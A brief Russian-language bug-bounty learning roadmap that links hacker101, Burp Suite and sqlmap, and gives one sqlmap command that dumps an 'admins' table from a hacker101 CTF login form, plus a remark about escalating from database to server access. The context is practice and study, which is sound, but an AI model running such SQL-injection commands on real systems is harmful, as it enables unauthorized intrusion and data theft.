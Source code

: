 # Roadmap

1. Получение новых знаний и навыков
2. Нахождение багов
3. Составление корректного отчета о найденном баге

## Получение новых знаний и навыков

[hacker101](https://www.hacker101.com/)

* знакомство с burp suite
* [sqlmap](https://github.com/sqlmapproject/sqlmap/wiki/Usage)

sqlmap -u "https://87712c999b75e62ae32cdf2d219d057c.ctf.hacker101.com/login" --method="POST" --data="username=123&password=123" -v 2 --dbms "MySQL" --threads 5 --dump -T admins

* robots.txt?

Недостаточно получить доступ к базе, желатьельно получить доступ к серверу, знать все его переменные окружения и иметь возможность их менять
